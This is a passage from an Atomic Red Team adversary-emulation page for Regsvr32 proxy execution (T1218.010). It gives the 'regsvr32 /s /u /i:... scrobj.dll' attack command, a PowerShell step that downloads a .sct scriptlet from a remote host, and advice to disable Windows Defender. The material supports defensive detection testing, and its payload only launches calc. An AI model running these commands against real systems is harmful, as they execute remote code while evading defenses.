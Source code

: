 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| filename | Name of the local file, include path. | path | PathToAtomicsFolder&#92;T1218.010&#92;src&#92;RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:"#{filename}" scrobj.dll
```




#### Dependencies:  Run with `powershell`!
##### Description: Regsvr32.sct must exist on disk at specified location (#{filename})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{filename}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{filename}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.010/src/RegSvr32.sct" -OutFile "#{filename}"
```




<br/>
<br/>

## Atomic Test #2 - Regsvr32 remote COM scriptlet execution
Regsvr32.exe is a command-line program used to register and unregister OLE controls. This test may be blocked by windows defender; disable
windows defender real-time protection to fix it. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** c9d0c4ef-8a96-4794-a75b-3d3a5e6f2a36





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to hosted sct file | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct|
| regsvr32path | Default location of Regsvr32.exe | path | C:&#92;Windows&#92;system32|
| regsvr32name | Default name of Regsvr32.exe | string | regsvr32.exe|
